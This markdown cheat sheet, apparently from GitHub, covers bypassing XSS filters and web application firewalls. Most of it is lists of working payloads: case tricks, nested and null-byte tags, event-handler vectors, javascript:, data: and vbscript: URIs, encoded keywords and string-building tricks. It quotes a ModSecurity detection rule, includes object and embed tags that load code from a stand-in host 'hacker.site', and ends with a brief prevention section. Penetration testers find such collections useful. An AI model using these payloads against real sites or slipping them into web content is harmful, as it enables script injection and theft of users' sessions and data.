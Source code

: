 # XSS Filter Evasion and WAF Bypassing Tactics

## Introduction

Cross-Site Scripting (XSS) attacks involve injecting malicious scripts into trustworthy websites. These attacks exploit flaws in web applications that accept user input without proper verification or encoding. Various guides and cheat sheets, like "XSS Filter Evasion Cheat Sheet" by RSnake and Cure53's initiative, aid security professionals in testing XSS problems.

This book focuses on identifying possible scenarios encountered in XSS attacks and strategies to overcome them.

### Common Scenarios

1. The XSS vector is blocked by the application or another entity.
2. The XSS vector is sanitized.
3. The XSS vector is filtered or blocked by the browser.

## Bypassing Blacklisting Filters

Blacklist mode filters, commonly used for their ease of installation, identify specific patterns to prevent malicious behavior. Bypassing these filters involves clever techniques.

### Script Code Injection

The `<script>` tag is a primary method for executing client-side scripting code. Weak tag banning rules can be exploited.

#### Getting Around Weak Tag Banning

Examples of weak rules exploitation:

- `<ScRiPt>alert(1);</ScRiPt>` - Upper- & Lower-case characters
- `<ScRiPt>alert(1);` - Upper- & Lower-case characters, without closing tag
- `<script/random>alert(1);</script>` - Random string after the tag name
- `<script>alert(1);</script>` - Newline after the tag name
- `<scr<script>ipt>alert(1)</scr<script>ipt>` - Nested tags
- `<scr\x00ipt>alert(1)</scr\x00ipt>` - NULL byte (IE up to v9)

### ModSecurity Script Tag Rule

ModSecurity filters the `<script>` tag with a rule like:

```regex
SecRule ARGS "(?i)(<script[^>]*>[\s\S]*?<\/script[^>]*>|<script[^>]*>[\s\S]*?<\/script[[\s\S]]*[\s\S]|<script[^>]*>[\s\S]*?<\/script[\s]*[\s]|<script[^>]*>[\s\S]*?)"
```

Different HTML tags and related event handlers can also be used:

- `<a href="javascript:alert(1)">show</a>`
- `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>`
- `<form action="javascript:alert(1)"><button>send</button></form>`
- `<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>`
- `<object data="javascript:alert(1)">`
- `<object data="data:text/html,<script>alert(1)</script>">`
- `<object data="data:text/html;base64, PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`
- `<object data="//hacker.site/xss.swf">`
- `<embed code="//hacker.site/xss.swf" allowscriptaccess=always>`

### Events and Event Handlers

HTML DOM uses events for interactivity. Various event handlers can be used for XSS:

#### HTML 4 Tags Examples

- `<body onload=alert(1)>`
- `<input type=image src=x:x onerror=alert(1)>`
- `<isindex onmouseover="alert(1)" >`
- `<form oninput=alert(1)><input></form>`
- `<textarea autofocus onfocus=alert(1)>`
- `<input oncut=alert(1)>`

#### HTML 5 Tags Examples

- `<svg onload=alert(1)>`
- `<keygen autofocus onfocus=alert(1)>`
- `<video><source onerror="alert(1)">`
- `<marquee onstart=alert(1)>`

To bypass filters, mix HTML and browser dynamics:

- `<svg/onload=alert(1)>`
- `<svg//////onload=alert(1)>`
- `<svg id=x;onload=alert(1)>`
- `<svg id=\`x\`onload=alert(1)>`

#### Control Character Bypasses

Browsers have different sets of control characters:

- **IExplorer:** `[0x09,0x0B,0x0C,0x20,0x3B]`
- **Chrome:** `[0x09,0x20,0x28,0x2C,0x3B]`
- **Safari:** `[0x2C,0x3B]`
- **FireFox:** `[0x09,0x20,0x28,0x2C,0x3B]`
- **Opera:** `[0x09,0x20,0x2C,0x3B]`
- **Android:** `[0x09,0x20,0x28,0x2C,0x3B]`

Use control characters to bypass filters.

### Keyword Based Filters

Signature-based filters may limit scripting code execution by blocking specific keywords like alert, javascript, eval, etc. Character escaping and manipulation techniques help bypass these filters.

#### Character Escaping

JavaScript offers various character escape types. For example:

- Unicode: `<script>\u0061lert(1)</script>`
- Decimal, Octal, Hexadecimal: `<img src=x onerror="\u0061lert(1)"/>`
  
#### Constructing Strings

Useful methods for constructing strings:

-

 `/ale/.source+/rt/.source`
- `String.fromCharCode(97,108,101,114,116)`
- `atob("YWxlcnQ=")`
- `17795081..toString(36)`

### Execution Sinks

Execution sinks are functions parsing strings into JavaScript code. Examples:

- `setTimeout("JSCode") //all browsers`
- `setInterval("JSCode") //all browsers`
- `setImmediate("JSCode") //IE 10+`
- `Function("JSCode") //all browsers`

Use these sinks to run JavaScript code.

### Pseudo-protocols

JavaScript pseudo-protocols like javascript:, data:, and vbscript: can be leveraged. Examples:

- `<object data="JaVaScRiPt:alert(1)">`
- `<object data="javascript&colon;alert(1)">`
- `<embed code="data:text/html,<script>alert(1)</script>">`
  
#### Data URI Scheme

Useful for bypassing filters:

- `<object data="data:text/html,<script>alert(1)</script>">`
- `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">`

#### VBScript Pseudo-protocol

Limited to Internet Explorer, examples:

- `<img src=a onerror="vbscript:msgbox 1"/>`
- `<img src=b onerror="vbs:msgbox 2"/>`
- `<img src=c onerror="vbs:alert(3)"/>`
- `<img src=d onerror="vbscript:alert(4)"/>`

### Bypassing Sanitization

Security systems often sanitize XSS vectors instead of blocking requests entirely. This involves HTML-encoding essential characters. String manipulations, removing HTML tags, and escaping quotes are strategies for bypassing sanitization.

#### String Manipulations

Be aware of recursive tests and try different vector sequences:

- `<scr<iframe>ipt>alert(1)</script>`

#### Escaping Quotes

Escape quotes using techniques like:

- `randomkey\' alert(1); //`

#### String Generation Methods

Explore various string generation methods:

- `String.fromCharCode()`
- `unescape(/%78%u0073%73/.source)`
- `decodeURI(/alert(%22xss%22)/.source)`

## How to Prevent Cross-Site Scripting

Filtering alone is insufficient; developers play a crucial role in securing applications. Context-sensitive escaping, proper encoding, and the use of HTTP security headers help prevent XSS. Focus on developing secure code to enhance application and user security.

**Thank you for reading! please checkout out on Twitter they are the source for this: [@N3T_hunt3r](https://twitter.com/N3T_hunt3r)**
**Happy hacking!** Stay curious and secure! 🚀✨
